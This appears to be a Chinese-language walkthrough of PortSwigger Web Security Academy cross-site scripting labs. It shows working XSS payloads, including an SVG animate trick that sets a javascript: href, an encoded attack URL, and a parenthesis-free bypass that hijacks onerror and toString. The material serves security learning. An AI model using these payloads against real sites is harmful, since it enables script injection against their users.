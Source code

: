 限制了href属性但是要做到 Click button 利用。通过 svg:animate 设置额外的参数。

```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

```html
https://0a750087032fc49e810b346d00650005.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) in a JavaScript URL with some characters blocked

反射型但是不再有`search`服务了。只能通过`post`界面来达成

后端会将 GET 参数渲染出一个 a 元素出来。

```html
<a href="javascript:fetch('/analytics', {method:'post',body:'<encodeURIComponent(input)>'}).finally(_ => window.location = '/')">Back to Blog</a>
```

不过这个编码不用管。毕竟是 javascript 伪协议，提取时会解码一次。简单测试可以知道block掉了空格和括号和分号

闭合前半 json，然后就可以通过`,`运算符的方式执行多个表达式。要绕过括号的限制，只能通过覆盖 js runtime 隐式执行的函数、配合 throw error 来实现。

[onerror](https://developer.mozilla.org/zh-CN/docs/Web/API/EventSource/error_event) 方法用于自定义错误处理，与`Error.prepareStackTrace`不同的是它仅适用于浏览器。它似乎与`EventSource`的 onerror 有区别（？

```js
/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{a:'
```

覆盖了`onerror`和`toString`。在调用`window+''`时会隐式执行`toString`，`toString`执行触发报错，throw 出一个 1337 被`onerror`接收成为参数执行。还蛮神奇的u1s1

格式化后的 payload 长这样

```js
fetch('/analytics', {
    method: 'post',
    body: '/post?postId=5&'
}, x = x=>{
    throw /**/
    EventSource.onerror = alert,
    1337
}
, toString = x, window + '', {
    a: ''
}).finally(_=>window.location = '/')
```

## Lab: Reflected XSS protected by very strict CSP, with dangling markup attack
